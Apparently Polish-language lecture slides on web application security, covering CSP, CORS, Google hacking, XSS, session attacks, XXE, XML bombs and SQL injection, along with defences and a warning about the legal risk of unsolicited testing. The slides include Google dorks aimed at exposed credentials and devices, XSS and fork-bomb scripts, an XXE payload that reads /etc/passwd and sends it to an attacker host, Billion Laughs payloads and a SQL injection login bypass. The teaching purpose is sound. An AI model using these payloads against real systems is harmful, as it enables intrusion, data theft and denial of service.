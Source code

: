 #+TITLE: Bezpieczeństwo aplikacji webowych
#+AUTHOR: Marcin Mela
#+EMAIL:  
#+LANGUAGE: en
#+REVEAL_THEME: solarized
#+REVEAL_TRANS: linear
#+REVEAL_EXTRA_CSS: reveal-local.css
#+OPTIONS: num:nil ^:nil
#+OPTIONS: reveal_center:t reveal_progress:t reveal_history:nil reveal_control:t
#+OPTIONS: reveal_rolling_links:t reveal_keyboard:t reveal_overview:t
#+OPTIONS: reveal_width:1200 reveal_height:600
#+OPTIONS: toc:1
 
* Wprowadzenie
** Słowo wstępu

#+BEGIN_QUOTE
"What do Linked In, Target, Yahoo, Sony and Adobe all have in common?

They have all been hacked, releasing millions of pieces of personal
information and costing at least as many dollars."

-- Matthew Casperson ("Full Stack Developer")
#+END_QUOTE

** Złote myśli

#+BEGIN_QUOTE
Moja aplikacja jest bezpieczna.
#+END_QUOTE

#+BEGIN_QUOTE
Po co ktoś chciałby włamywać się do mojej aplikacji?
#+END_QUOTE

#+BEGIN_QUOTE
Aplikacje pisane w Javie są bezpieczniejsze niż od tych pisanych w PHP
#+END_QUOTE

#+BEGIN_QUOTE
Zapewniliśmy bezpieczeństwo aplikacji wymuszając całą komunikację po HTTPS.
#+END_QUOTE

#+BEGIN_QUOTE
Ten plik został zabezpieczony w tak zwanym głębokim ukryciu, jak to mówią informatycy.
#+END_QUOTE

** Typowa web-aplikacja

#+CAPTION: Typowa web-aplikacja
#+ATTR_HTML: :align center
[[./images/WebApplication.png]]

** Przykładowe podatności - Spring Framework
- CVE-2014-1904 :: Cross-site scripting (XSS) vulnerability in
                   web/servlet/tags/form/FormTag.java in Spring MVC in
                   Spring Framework 3.0.0 before 3.2.8 and 4.0.0
                   before 4.0.2 allows remote attackers to inject
                   arbitrary web script or HTML via the requested URI
                   in a default action.

- CVE-2013-6429 :: The SourceHttpMessageConverter in Spring MVC in
                   Spring Framework before 3.2.5 and 4.0.0.M1 through
                   4.0.0.RC1 does not disable external entity
                   resolution, which allows remote attackers to read
                   arbitrary files, cause a denial of service, and
                   conduct CSRF attacks via crafted XML, aka an XML
                   External Entity (XXE) issue, and a different
                   vulnerability than CVE-2013-4152 and
                   CVE-2013-7315. 

** Przykładowe podatności - Serwery aplikacji

- Java Unserialize Vulnerability ::
  - http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
  - http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

** Programiści
Programiści często korzystają z online-owych narzędzi jak:
- kodowanie URL, base64
- liczenie skrótów MD5, SHA1 itp
- formatowanie kodu
- walidacja xml
- udostępnianie/współpraca nad fragmentami kodu

Nie mając żadnej informacji komu i gdzie przekazują te informacje. 

* Architektura a bezpieczeństwo
** Monolith
#+CAPTION: Architektura monolitczyna
#+ATTR_HTML: :align center
[[./images/Monolith.png]]

** Single Page Application
- Kod frontend-u przejmuje części dotychczas typowe dla serwera:
  budowa widoków, nawigacja, a nawet local storage
- Architekura SPA przerzuca dużą cześć odpowiedzialności za
  bezpieczeństwo na klienta (przeglądarkę)
- Pojawia się pojęcie zarządzania sesją po stronie klienta - serwer
  dostarcza tylko czyste dane
- JS-owe frameworki MVC (np Angular) dostarczają mechanizmy pomagające
  zapobiegać niektórym atakom (XSS, CSRF)
- Logika front-endu jest całkowicie przeźroczysta
- Widoki, requesty, endpointy dla różnych ról są widoczne dla każdego
  użytkownika
- Serwer wciąż nie może ufać danym przychodzącym od klientów

** Content Security Policy
- Nowy standard pozwalający zdefiniować dozwolone pochodzenie zasobów
  (JS, CSS, obrazki, pluginy, fonty) w aplikacji webowej 
- Mechanizm przeglądarki stworzony jako obrona przed XSS
- Pozwala ograniczyć dozwolone destynacje dla requestów, websocketów
  czy formularzy
- Daje możliwoś zablokowania niechcianych elementów jak obiekty Flash czy ramki
- Blokuje skrypty "inline" czy =eval()=
- Powoli wspierany przez frameworki MVC (AngularJS, Ember.js) które
  mają wbudowane tryby zgodności
- Działa w Chrome, Firefox, Safari i częściowo w IE10 (=X-Content-Security-Policy=)

#+REVEAL: split

- Opiera się na nagłówkach odpowiedzi HTTP ustawianych przez serwer
#+BEGIN_EXAMPLE
Content-Security-Policy: script-src 'self' https://apis.google.com
#+END_EXAMPLE
- Oferuje mechanizm raportów powiadamiający o naruszeniach polityki
  bezpieczeństwa
#+BEGIN_EXAMPLE
Content-Security-Policy: default-src 'self';  https://apis.google.com; report-uri /reportsConsumer;
{
  "csp-report": {
    "document-uri": "http://mypage.org/index.html",
    "referrer": "http://badguy.com/",
    "blocked-uri": "http://badguy.com/malicious.js",
    "violated-directive": "script-src 'self' https://apis.google.com",
    "original-policy": "script-src 'self' https://apis.google.com; report-uri http://mypage.org/reportsConsumer"
  }
}
#+END_EXAMPLE

#+REVEAL: split

- Istnieje "łagodniejsza" odmiana mechanizmu CSP - która tylko
  raportuje nadużycia, ale ich nie blokuje
#+BEGIN_EXAMPLE
Content-Security-Policy-Report-Only: default-src 'self'; https://apis.google.com; report-uri /reportsConsumer;
#+END_EXAMPLE

** Cross-Origin Resource Sharing

#+BEGIN_QUOTE
Cross-origin resource sharing (w skrócie CORS) – mechanizm
umożliwiający współdzielenie zasobów pomiędzy serwerami znajdującymi
się w różnych domenach. Ściślej rzecz biorąc chodzi o możliwość
wykonywania żądań AJAX między takimi serwerami przy zachowaniu pewnych
ograniczeń co do dopuszczalnego źródła żądania.

-- https://pl.wikipedia.org/wiki/Cross-Origin_Resource_Sharing
#+END_QUOTE

** CORS
- standard W3C
- oparty o nagłówki HTTP
- rozszerza standardowe podejście *same origin* jednocześnie
  zapewniając niezbędny poziom bezpieczeństwa
- definiuje sposób w jaki przeglądarka i serwer dogadują się w kwestii
  wykonania requestów *cross origin*
- wspierany przez praktycznie wszystkie współczesne przeglądarki

** CORS - scenariusz 1
#+BEGIN_SRC plantuml :file images/generated-cors1-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

participant "JavaScript\nhttp://foo.com" as foo
participant "Web Browser" as browser
participant "Server\nhttp://bar.com" as bar

foo -> browser : POST bar.com/something

group optional
  browser -> bar : OPTIONS bar.com/something\nOrigin: http://foo.com
  bar --> browser: Access-Control-Allow-Origin: http://foo.com\nAccess-Control-Allow-Methods: POST, PUT
  browser -> browser: Check if ACAO header\n equals * or http://foo.com

  alt successful case
    browser -> bar : POST bar.com/something\nOrigin: http://foo.com
    bar --> browser: Access-Control-Allow-Origin http://foo.com\nsomethingInteresting  
    browser --> foo : somethingInteresting
  else missing CORS headers
    browser --> foo : Error
  end
end
#+END_SRC

#+CAPTION: Scenario of the CORS for POST
#+ATTR_HTML: :align center
[[./images/generated-cors1-scenario.png]]

** CORS - scenariusz 2
#+BEGIN_SRC plantuml :file images/generated-cors2-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

participant "JavaScript\nhttp://foo.com" as foo
participant "Web Browser" as browser
participant "Server\nhttp://bar.com" as bar

foo -> browser : GET bar.com/something
browser -> bar : GET bar.com/something\nOrigin: http://foo.com
bar --> browser: Access-Control-Allow-Origin: http://foo.com\nsomethingInteresting 
browser -> browser: Check in ACAO header\n equals * or http://foo.com

alt successful case
browser --> foo : somethingInteresting
else missing CORS headers
browser --> foo : Error
end
#+END_SRC

#+CAPTION: Scenario of the CORS for GET
#+ATTR_HTML: :align center
[[./images/generated-cors2-scenario.png]]
** Microservices

#+BEGIN_QUOTE
The term "Microservice Architecture" has sprung up over the last few
years to describe a particular way of designing software applications
as suites of independently deployable services. 

-- Martin Fowler
#+END_QUOTE

** Architektura mikroserwisów

#+CAPTION: Architektura mikroserwisów
#+ATTR_HTML: :align center :height 700px
[[./images/Microservices.png]]

** Bezpieczeństwo mikroserwisów
Architektura mikro serwisów stawia nowe pytania w kwestii
bezpieczeństwa:
- Czy poszczególne części systemu powinny być dostępne z zewnątrz?
- Jak jesteśmy zabezpieczeni przed niepowołanym dostępem, gdy
  atakujący przedostanie się "do środka"?
- Jaki może być zasięg strat jeśli atakujący dostanie się do dowolnego
  z serwisów?
- Jak rozwiązaliśmy kwestie wzajemnego zaufania pomiędzy serwisami?
  Czy mamy serwisy które ufają każdemu?
- W jaki sposób autoryzujemy requesty? Czy informacja o inicjatorze
  requestu jest przekazywana pomiędzy serwisami czy jest tracona na
  api gateway?
- Czy serwisy komunikują się ze sobą w bezpieczny sposób?
- Jaki jest poziom ryzyka dla poszczególnych serwisów? Czy były
  testowane pod kątem typowych podatności?
- Czy wdrożyliśmy typowe praktyki bezpieczeństwa, polityki haseł,
  upgrade-u komponentów?

* Aspekt prawny

Zabawy w niezamówione testy bezpieczeństwa mogą mieć swoje (przykre) prawne następstwa.

- http://prawo.vagla.pl/node/8154
- http://di.com.pl/precedensowy-wyrok-w-sprawie-sql-injection-23837
- http://www.proline.pl/?n=haker-kontra-multimedia-dane-zle-zabezpieczone

* Google hacking
** Wstęp

- Wyszukiwarka Google indeksuje informacje udostępnione przez strony i
  aplikacje internetowe, często w sposób niezamierzony czy
  nieprzewidziany przez autorów
- Google udostępnia mechanizm zaawansowanego wyszukiwania i tzw
  "search operators", które można użyć by zbudować zapytanie
- Atakujący może użyć wyszukiwarki Google na kilka sposobów:
  - wybrać stronę ze względu na interesują go treść, podatność,
    rodzaj pliku
  - wyszukać aplikacje działające na określonym serwerze, wersji
    frameworka czy używające konkretnej biblioteki
  - dokładnie przeszukać jedna stronę, poznać słabe punkty, dowiedzieć
    się jak najwięcej o strukturze, zasobach, odnaleźć "ukryte" zasoby
  - dotrzeć do danych których nasza strona już nie zawiera ale wciąż
    są w cache Google'a

#+REVEAL: split

- Więcej informacji:
  - http://niebezpiecznik.pl/edu/google_hacking.pdf
  - https://www.blackhat.com/presentations/bh-europe-05/BH_EU_05-Long.pdf

- Baza zapytań:
  - https://www.exploit-db.com/google-hacking-database/
  - http://www.hackersforcharity.org/ghdb/

** Przykłady

- intitle:index.of -inurl:index.php Metallica
- inurl: SELECT inurl:FROM inurl:WHERE
- filetype:bak site:www.example.com mysql warning
- filetype:bak inurl:"htaccess|passwd|shadow|htusers"
- http://admin:*@www 
- filetype:bak inurl:include.php
- filetype:bak inurl:config.php
- filetype:log admin account info

#+REVEAL: split

- intitle:index.of -inurl:index.php zdjecia
- "Access denied for user"  "using password"  
- "The full stack trace of the root cause is available in the Apache Tomcat"
- filetype:bak mysql_connect
- intitle:"Index of" .mysql_history
- "web file browser" "use regular expression"
- intitle:phpMyAdmin "Welcome to phpMyAdmin" "running on * as root@"
- intitle:phpMyAdmin "Welcome to phpMyAdmin ***" "running on * as *"
- intitle:Tomcat Status | inurl:/status?full=true

** Przykłady: kamerki, drukarki, switche
- inurl:”ViewerFrame?Mode=”
- inurl:indexFrame.shtml Axis
- inurl:view/indexFrame.shtml
- intitle:”live view” intitle:axis
- inurl:view/view.shtml
- inurl:hp/device/this
- "speedstream router management interface"
- "videoconference management system" ext:htm

* Cross Site Scripting (XSS)
** Wprowadzenie

*XSS* to obecnie jeden z najpopularniejszych ataków. Uruchamiany jest
zawsze w przeglądarce (kliencie) chociaż wstrzyknięcie złośliwego kodu
może być po stronie serwera lub klienta.  

Sprawnie użyty XSS pozwala:
- wykraść dane dostępowe do aplikacji
- wykraść identyfikatory sesji
- zmienić treści na stronie
- wykonać DoS
- zaatakować inne strony
- zbudować armię "zombie" z użytkowników zaatakowanej aplikacji

Problemy z XSS mieli: MySpace, Facebook, Google, FBI, CIA i tysiące innych.
  
** XSS - rodzaje
Można wyróżnić 3 podstawowe rodzaje ataków XSS
- Reflected XSS (Non Persistent XSS)
- Stored XSS (Persistent XSS)
- DOM Based XSS

** Reflected XSS 
Występuje gdy aplikacja (serwer) wykorzystuje dane bezpośrednio z
parametrów. Atakujący podrzuca link osobie atakowanej (email, skype,
alias), która po kliknięciu dostanie treść z wstrzykniętym kodem.

Załóżmy, że wyszukiwarka na stronie jest podatna na XSS
#+BEGIN_SRC plantuml :file images/generated-reflectedxss-intro1.png :results silent
@startsalt
{
  http://www.example.com/search.html 
  ......
  {
    Szukaj towaru |  " laptop           "
    [  Ok  ]
  }
}
@endsalt
#+END_SRC

#+CAPTION: Introduction to the Reflected XSS attack
#+ATTR_HTML: :align center
[[./images/generated-reflectedxss-intro1.png]]

#+BEGIN_SRC plantuml :file images/generated-reflectedxss-intro2.png :results silent
@startsalt

skinparam backgroundcolor transparent
@startsalt
{
  http://www.example.com/search.html?q=laptop 
  ......
  {
    Nie znaleziono nic dla frazy: laptop
  }
}
@endsalt
#+END_SRC

#+CAPTION: Introduction to the Reflected XSS attack
#+ATTR_HTML: :align center
[[./images/generated-reflectedxss-intro2.png]]

Można to wykorzystać do ataku:
#+BEGIN_EXAMPLE
http://www.example.com/search.html?q=<script>alert('hacked')</script>
#+END_EXAMPLE

** Reflected XSS - scenariusz
#+BEGIN_SRC plantuml :file images/generated-reflectedxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
   
Bob -> John : Email z przygotowanym linkiem
John -> App : Klika link z email-a
activate App
App --> John : Generuje odpowiedź bazując\nna danych z parametrów requestu
deactivate App
John -> John : Przeglądarka wyświetla odpowiedź\n i uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the Reflected XSS attack
#+ATTR_HTML: :align center
[[./images/generated-reflectedxss-scenario.png]]

** Stored XSS

Mówimy o *Stored XSS* gdy złośliwie wstrzyknięty kod jest przechowywany i serwowany
użytkownikom przez samą aplikację.

Przykład: Atakujący użył formularza dodawania komentarzy by wstrzyknąć
i zapisać swój kod, który potem zostanie wysłany do pozostałych
użytkowników odwiedzających komentowany artykuł. 

** Stored XSS - scenariusz
#+BEGIN_SRC plantuml :file images/generated-storedxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John
participant "Aplikacja\nwebowa" as App
database "Baza\ndanych" as DB    

Bob -> App : Wykorzystuje podatność\nby wstrzyknąć kod

activate App
App -> DB : Zapisuje złośliwy kod
DB --> App : OK
App --> Bob : 200 OK
deactivate App

... Po pewnym czasie ...

John -> App : Prosi o stronę
activate App
App -> DB : Pobranie danych
DB --> App : Dane z wstrzykniętym kodem
App --> John : 200 OK
deactivate App

John -> John : Przeglądarka wyświetla stronę\ni uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the Stored XSS attack
#+ATTR_HTML: :align center
[[./images/generated-storedxss-scenario.png]]

** DOM Based XSS

Ta odmiana XSS wykorzystuje podatności w kodzie po stronie klienta
(przeglądarki) w odróżnieniu od Reflected XSS i Stored XSS które
traktujemy jako problemy po stronie serwera.

W swoim działaniu jest podobny do Reflected XSS z tą
różnicą, że złośliwy kod nie jest przetwarzany przez serwer a jedynie
odsyłany do przeglądarki (często nie jest wysyłany do
serwera). Zapobieganie tym atakom odbywa się głównie w kodzie JavaScript.

** DOM Based XSS - scenariusz

#+BEGIN_SRC plantuml :file images/generated-domxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide  footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
   
Bob -> John : Email z przygotowanym linkiem
John -> App : Klika link z email-a
activate App
App --> John : Przepisuje parametry requestu
deactivate App
John -> John : Przeglądarka wyświetla odpowiedź\nczyta parametry requestu\ni uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the DOM based XSS attack
#+ATTR_HTML: :align center
[[./images/generated-domxss-scenario.png]]

** XSS - zapobieganie

- Filtry HTTP które blokują przetwarzanie requestów zawierających
  potencjalne wstrzyknięcia
- Escape-owanie znaków html ( "<" na &lt; itd) - =ESAPI.encoder()=
- Parsery/filtry/sanitizer-y(?) HTML które potrafią przepuścić wybrane zakres
  znaczników i ich atrybutów
  - https://github.com/owasp/java-html-sanitizer
  - https://github.com/finn-no/xss-html-filter
  - https://github.com/Vereyon/HtmlRuleSanitizer
- Używać mechanizmy template-ów które oferują funkcje auto-escape-owania

** XSS - HTML sanitizer

Przykład użycia OWASP HTML Sanitizer:

#+BEGIN_SRC java
PolicyFactory policy = new HtmlPolicyBuilder()
    .allowElements("a")
    .allowUrlProtocols("https")
    .allowAttributes("href").onElements("a")
    .requireRelNofollowOnLinks()
    .build();
String safeHTML = policy.sanitize(untrustedHTML);
#+END_SRC

** XSS - Session cookie

Dla cookie reprezentującego ID sesji warto ustawić opcję =httpOnly= na
=true= by przeglądarka zablokowała skryptom dostęp do jego wartości:

#+BEGIN_SRC java
Cookie cookie = getMyCookie("myCookieName");
cookie.setHttpOnly(true);
#+END_SRC

#+BEGIN_SRC xml
<!--Since JEE6, we can use web.xml to secure session cookies -->
<session-config>
 <cookie-config>
  <http-only>true</http-only>
 </cookie-config>
</session-config>
#+END_SRC

** XSS Fork Bomb
#+BEGIN_SRC js
<script>
while (true) {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}
</script>
#+END_SRC

#+BEGIN_SRC js
<a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
#+END_SRC

** XSS Shell
Przejęcie komputera za pomocą XSS-a?

- Instalujemy XSS Shell na naszym serwerze (https://github.com/portcullislabs/xssshell-xsstunnell)
- Wstrzykujemy skrypt inicjujący XSS Shell na atakowanej stronie
- Czekamy kiedy ofiary pojawią się online i wykonujemy akcje: 
  - Pokaż alert
  - Pokaż cookie
  - Keylogger
  - Zawartość schowka (IE)

* Ataki na sesje
** Session Prediction
Atak polegający na przewidywaniu identyfikatora sesji jaki wygenerował
lub wygeneruje serwer. Podatne mogę być własne implementacje
zarządzania sesją w tym mechanizm trwałej sesji (persistent session,
"remember me").

Wszędzie tam gdzie identyfikator jest generowany na podstawie danych,
jest zbyt mało losowy lub za krótki, może pojawić się podatność na
tego typu atak.

Poniższe identyfikatory nie gwarantują bezpieczeństwa sesji:
#+BEGIN_EXAMPLE
Cookie: JSESSIONID=marcin
Cookie: JSESSIONID=10225362
Cookie: JSESSIONID=sw2r1
Cookie: JSESSIONID=bWFyY2luLTE0NDg3OTcyMzE%3D
Cookie: JSESSIONID=202cb962ac59075b964b07152d234b70
#+END_EXAMPLE

** Session Hijacking
Atak ten polega na użyciu identyfikatora sesji który został prawidłowo
wygenerowany dla innego użytkownika. Istnieje kilka realizacji tego
ataku:
- Cross Site Scripting
- Podsłuchiwanie ruchu sieciowego
- Man in the middle (np fałszywy Access Point)
- Man in the browser (Trojany dla przeglądarek)

** Session Fixation
*Session Fixation* to wykorzystanie  podatności mechanizmu zarządzania
sesjami, który nie zmienia identyfikatora sesji przy rozpoczęciu nowej sesji
(np. po prawidłowym logowaniu się do systemu) a korzysta z już
istniejącego.

Atak ten można przeprowadzić na kilka sposób:
- podsyłając link z identyfikatorem sesji jako parametr url
- użyć XSS by ustawić wartość session-cookie
- dodając nagłówki przy atakach MITM czy MITB

** Session Fixation - scenariusz

#+BEGIN_SRC plantuml :file images/generated-session-fixation-scenario.png :results silent
skinparam backgroundcolor transparent
hide  footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App

Bob -> App : Loguje się\nhttp://www.example.com/login
activate App
App --> Bob: JESSIONID=xyz
deactivate App
   
Bob -> John : Email z przygotowanym linkiem\nhttp://www.example.com/login?JSESSIONID=xyz
John -> App : Loguje się używając\nadresu z email-a
activate App
App->App : Zaloguj użytkownika
App -> App : Sesja xyz już istnieje,\nnie trzeba tworzyć nowej

App --> John : JSESSIONID=xyz
deactivate App

group Loop 
  Bob -> App: Sprawdza czy użytkownik już się zalogował
end

Bob -> App: Pracuje w kontekście przejętej sesji
#+END_SRC

#+CAPTION: Scenario of Session Fixation attack
#+ATTR_HTML: :align center
[[./images/generated-session-fixation-scenario.png]]

* Ataki związane z przetwarzaniem XML
** XML External Entity (XXE)

Atak *XML XXE* to atak ukierunkowany na parsery XML które
przetwarzając dokument akceptują nawiązania do zewnętrznych elementów
w DTD (domyślna konfiguracja wielu parserów). 

#+BEGIN_SRC xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<foo>&xxe;</foo>
#+END_SRC

** XML XEE - wykorzystanie

- czytanie plików na dysku serwera
- przejście przez firewall i dostęp do wewnętrznych zasobów (atak na
  intranet)
- atak na zewnętrzny serwer
- atak DOS:
  - duży plik na innym serwerze
  - =/dev/urandom/=
  - rekurencyjna definicja elementów

** XML XEE - Przesłanie danych

Wysłany dokument: 
#+BEGIN_SRC xml
<!ELEMENT foo ANY >
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://abcd.dns.attackers.com/file.dtd">
%dtd;]>
#+END_SRC

Dokument =file.dtd= na zdalnym serwerze:
#+BEGIN_SRC xml
<!--?xml version="1.0" encoding="ISO-8859-1"?-->
<!ENTITY % all "<!ENTITY send SYSTEM 'gopher://abcd.dns.attackers.com:443/xxe?%file;'>">
%all;
#+END_SRC

Dokładny opis: http://foxglovesecurity.com/2015/10/26/car-hacking-for-plebs-the-untold-story/

** Billion Laughs

Atak DoS na parsery XML (znany też jako "XML Bomb" lub "Exponential
Entity Expansion attack").

#+BEGIN_EXAMPLE
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>

<lolz>&lol9;</lolz>
#+END_EXAMPLE

** Quadratic Blowup

Atak podobny do Billion Laughs, z tym że zamiast wielokrotnie
zagnieżdżonej struktury używamy powtórzenia dużych elementów. Pozwala
to obejść ograniczenia ilości zagnieżdżeń.

#+BEGIN_SRC xml
<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa..50kB..aaa">
]>
<kaboom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...50k...</kaboom>
#+END_SRC

** Python - XML vulnerabilities

#+BEGIN_EXAMPLE
https://docs.python.org/2.7/library/xml.html#xml-vulnerabilities
#+END_EXAMPLE

| kind                      | sax | etree  | minidom | pulldom | xmlrpc |
|---------------------------+-----+--------+---------+---------+--------|
| billion laughs            | Yes | Yes    | Yes     | Yes     | Yes    |
| quadratic blowup          | Yes | Yes    | Yes     | Yes     | Yes    |
| external entity expansion | Yes | No     | No      | Yes     | No     |
| DTD retrieval             | Yes | No     | No      | Yes     | No     |
| decompression bomb        | No  | No     | No      | No      | Yes    |

** Ataki XML - zapobieganie

Na ataki XMLem podatne są parsery dla praktycznie wszystkich języków
(Java, .NET, Python, PHP, platformy mobilne itd.), jednakże wiele z nich można
skonfigurować tak by nie rozwiązywała zewnętrznych elementów bądź
zagnieżdżonych definicji w DTD.

Można też całkowicie pozbyć się DTD zanim dokument XML zostanie
przekazany do parsera.

* SQL Injection
** Wprowadzenie
- Atak SQL injection jest możliwy gdy dane wejściowe od użytkownika są
  użyte do budowy zapytań SQL, najczęściej poprzez konkatenację z
  łańcuchami budującymi docelowe zapytanie
- Jeden z groźniejszych ataków na aplikacje internetowe, pozwalający
  na:
  - wykradanie całych baz danych
  - modyfikacje danych
  - ataki DoS 
- Praktycznie rzecz biorąc pojedyncza podatność na SQLi może
  doprowadzić do całkowitego przejęcia kontroli nad aplikacją
- Kiedyś bardzo "popularny" obecnie trochę stracił na znaczeniu, ale
  może czeka go wielki powrót?

#+REVEAL: split

- Złośliwy kod może zostać wstrzyknięty praktycznie każdym kanałem
  gdzie przekazywane są dane wejściowe do systemu:
  - parametry
  - formularze
  - ciasteczka
  - nagłówki HTTP
  - obiekty JSON/XML w request-cie
  - parametry metod w webservice-ach
  - dane z bazy danych

#+REVEAL: split

- Na SQLi podatne są wszystkie typu zapytań SQL:
  - SELECT
  - UPDATE
  - INSERT
  - ALTER, DROP itp
  - niektóre procedury składowane

** Zarys działania
Jeśli nasza aplikacja buduje zapytanie odpowiedzialne za logowanie
użytkowników w ten sposób:

#+BEGIN_SRC java
String sql = "SELECT userId FROM users WHERE login='" + 
             login + "' AND password='" + pass + '";
#+END_SRC

to wysyłając parametry:

#+BEGIN_EXAMPLE
login=admin'--
pass=cokolwiek
#+END_EXAMPLE

efektywnie wygenerujemy zapytanie:

#+BEGIN_SRC sql
SELECT userId FROM users WHERE login='admin'-- AND password='cokolwiek'
#+END_SRC

** Scenariusz
1. Szukanie podatności
2. Poznanie struktury zapytania w którym jest użyta odkryta podatność
3. Odkrycie rodzaju bazy danych
4. Poznanie struktury bazy
5. Wykonywanie własnych zapytań

** Scenariusz
#+BEGIN_SRC plantuml :file images/generated-sql-scenario.png :results silent
skinparam backgroundcolor transparent
  actor "Zły człowiek" as Bob #red
  participant "Aplikacja webowa" as App
   
  loop Szukanie podatności
    Bob -> App : Request 1
    ... ...
    Bob -> App : Request n
  end
   
  loop Poznanie struktury zapytania
      Bob -> App : Request 1
    ... ...
    Bob -> App : Request n
  end
   
  loop Odkrycie rodzaju bazy danych
     Bob -> App : Request 1
    ... ...
    Bob -> App : Request n
  end
   
  loop Poznanie struktury bazy
      Bob -> App : Request 1
    ... ...
    Bob -> App : Request n
  end
   
  loop Wykonywanie własnych zapytań
      Bob -> App : Request 1
    ... ...
    Bob -> App : Request n
  end
#+END_SRC

#+CAPTION: Scenario of the SQL Injection attack
#+ATTR_HTML: :align center :height 700px
[[./images/generated-sql-scenario.png]]

** Szukanie podatności - string

Badając parametr typu string:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport
#+END_EXAMPLE

Można spróbować:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport'
#+END_EXAMPLE

a potem
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport''
#+END_EXAMPLE

